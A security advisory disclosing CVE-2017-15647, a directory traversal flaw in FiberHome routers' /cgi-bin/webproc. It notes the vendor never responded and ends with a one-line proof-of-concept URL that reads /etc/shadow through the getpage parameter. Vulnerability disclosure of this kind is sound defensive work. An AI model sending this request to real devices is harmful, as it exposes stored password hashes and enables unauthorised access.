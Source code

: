 ## Vulnerability Summary
The following advisory describes a directory traversal vulnerability found in FiberHome routers.

FiberHome Technologies Group “was established in 1974. After continuous and intensive development for over 40 years, its business has been extended to R&D, manufacturing, marketing & sales, engineering service, in 4 major areas: fiber-optic communications, data networking communications, wireless communication, and intelligentizing applications. In particular, it has been providing end-to- end solutions integrated with opto-electronic devices, opticpreforms, fiber & cables, and optical communication systems to many countries around the world.”

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
Update 1:

Cve issued: CVE-2017-15647

We tried to contact FiberHome since September 6 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for the vulnerability.

## Vulnerability details
User controlled input is not sufficiently sanitized when passed to /cgi-bin/webproc.

/cgi-bin/webproc receives getpage= as parameter input.

When we pass the directory of a file as a parameter input with parameter var:page, we will get the file from the router.

## Proof of Concept

```
http://+IP+ /cgi-bin/webproc?getpage=/etc/shadow&var:language=en_us&var:page=wizardfifth
```